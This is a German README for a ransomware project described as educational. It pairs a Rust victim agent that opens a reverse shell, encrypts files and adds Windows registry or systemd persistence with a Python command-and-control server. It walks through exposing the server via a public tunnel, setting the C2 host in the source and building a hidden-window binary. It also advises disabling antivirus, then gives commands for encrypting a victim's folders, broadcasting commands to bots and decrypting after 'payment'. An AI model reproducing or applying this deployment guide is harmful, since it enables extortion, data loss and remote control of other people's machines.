

# Rust Malware Simulation (Edu-Ransomware)

> **! WICHTIGER RECHTLICHER HINWEIS & DISCLAIMER**
>
> Diese Software wurde **ausschließlich zu Bildungszwecken** und für die Sicherheitsforschung entwickelt.
>
> - Die Verwendung dieser Software auf Systemen, für die Sie keine ausdrückliche Genehmigung haben, ist **illegal** und kann strafrechtlich verfolgt werden.
> - Der Autor übernimmt **keine Haftung** für Schäden, die durch die Nutzung oder den Missbrauch dieser Software entstehen.
> - Führen Sie die Malware **niemals** auf Ihrem Produktivsystem aus. Nutzen Sie immer eine isolierte Virtuelle Maschine (VM).

---

## Über das Projekt

Dieses Projekt demonstriert die Funktionsweise einer modernen Ransomware-Attacke unter Laborbedingungen. Es besteht aus zwei Hauptkomponenten:

1. **Victim (Client):** Ein in **Rust** geschriebener Agent, der auf dem Zielsystem ausgeführt wird. Er baut eine Reverse-Shell auf, verschlüsselt Dateien atomar (AES-256-CTR) und etabliert Persistenz.
2. **Attacker (C2 Server):** Ein in **Python** geschriebener Command-and-Control Server, der mehrere Bots verwaltet, Befehle sendet und die Entschlüsselung steuert.

Ziel ist es die Funktionsweise von Ransomware zu erklären und zu demonstrieren

---

## Architektur

### 1. Netzwerk-Kommunikation (Reverse Shell)

Der Client verbindet sich aktiv nach außen zum Server. Dies umgeht oft klassische Firewall-Regeln, die eingehenden Verkehr blockieren.


2. Verschlüsselungsprozess (Atomic Encryption)
   Um Datenverlust bei Abstürzen zu verhindern, nutzt der Agent ein atomares Verfahren.



## Server Installation & Start (Angreifer)

Der Server läuft auf Python (Standard-Bibliotheken, keine pip install nötig).

1. Server lokal starten
   Navigieren Sie in das Server-Verzeichnis:

```bash
cd server
python3 c2_server.py
```

Der Server lauscht nun standardmäßig auf Port 4444.

2. Server öffentlich verfügbar machen (Pinggy.io)
   Damit sich der Client aus einem anderen Netzwerk (oder VM) verbinden kann, wird ein öffentlicher Tunnel verwendet. Wir nutzen hierfür Pinggy.io (keine Installation nötig).
   Lassen Sie den Python-Server in Terminal 1 laufen. Öffnen Sie ein neues Terminal:

```bash
# Startet einen TCP Tunnel zu Ihrem lokalen Port 4444
ssh -p 443 -R0:localhost:4444 tcp@a.pinggy.io
```

Notieren der Ausgabe! Sie sieht etwa so aus:
tcp://ylruu-90-186-43-205.a.free.pinggy.link:39005
Host: ylruu-90-186-43-205.a.free.pinggy.link
Port: 39005

Hinweis: Lassen Sie dieses Terminal offen, sonst bricht die Verbindung ab.

## Client Kompilierung (Opfer)

Der Agent ist in Rust geschrieben. Zum Kompilieren wird die Rust-Toolchain benötigt (cargo).

1. Konfiguration anpassen
   Öffnen Sie die Datei src/main.rs und tragen Sie die Daten aus dem Pinggy-Tunnel ein:

```Rust
// src/main.rs

// Tragen Sie hier die URL von Pinggy ein (OHNE tcp://)
const C2_IP: &str = "ylruu-90-186-43-205.a.free.pinggy.link";

// Tragen Sie hier den Port von Pinggy ein
const C2_PORT: u16 = 39005;
```

2. Kompilieren (Build)
   Erstellen Sie eine optimierte Release-Version (kleiner, schneller, kein Debug-Fenster unter Windows):

```bash
cargo build --release
```

3. Die Executable finden
   Nach dem Kompilieren finden Sie die ausführbare Datei hier:
   Linux/Mac: `./target/release/rust_mw`
   Windows: `.\target\release\rust_mw.exe`

! Achtung: Windows Defender oder Antiviren-Programme werden diese Datei wahrscheinlich sofort löschen. Fügen Sie den Ordner zu den Ausnahmen hinzu oder deaktivieren Sie den Echtzeitschutz für die Demo.

## Bedienung des C2 Servers

Sobald das Opfer die .exe ausführt, erscheint im Server-Terminal:

`[+] Neue Verbindung: ID 1 from ...`

Der Server verfügt über eine interaktive Shell. Hier sind die wichtigsten Befehle:

Befehl Beschreibung

`sessions` Listet alle aktuell verbundenen Opfer (Bots) auf.
`interact` <ID> Wechselt in den Modus, um einen spezifischen Bot zu steuern.
`encrypt` <ID> <PFAD> Verschlüsselt einen Ordner auf dem PC des Opfers (ID).
`decrypt` <ID> [PFAD] Entschlüsselt Dateien. Ohne Pfad wird das Root-Verzeichnis genommen.
`broadcast` <CMD> Sendet einen Befehl an alle verbundenen Bots gleichzeitig.
`help` Zeigt das Hilfemenü an.
`exit` Beendet den Server.

Beispiel-Workflow
Verbindungen prüfen:

```bash
C2> sessions
Mit Opfer 1 interagieren:
C2> interact 1
Verschlüsselung starten (auf dem Desktop):
ID 1> encrypt /home/user/Desktop
(Der Client generiert nun Schlüssel, verschlüsselt Dateien und zeigt die Erpresser-Nachricht).
Entschlüsselung starten (nach "Zahlung"):
ID 1> decrypt
Zurück zum Hauptmenü:
ID 1> background
```

## Technische Features

Stealth Mode: Unter Windows wird das Konsolenfenster versteckt (windows_subsystem). Unter Linux läuft der Prozess als Daemon im Hintergrund.
Persistenz:
Windows: Registry Key (`HKCU\...\Run`).
Linux: Systemd Service (`~/.config/systemd/user/`).
Krypto: Verwendet AES-256-CTR via RustCrypto Crate. Der Key wird lokal in rescue.key gespeichert (in einem echten Szenario würde er zum Server hochgeladen werden).

## License

MIT License
Copyright (c) 2024 [Tim Lukas]
Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:
The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.
THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
ETHICAL USE CLAUSE:
By using this software, you agree to use it only for educational purposes or on systems you own or have explicit permission to test. The author is not responsible for any misuse.
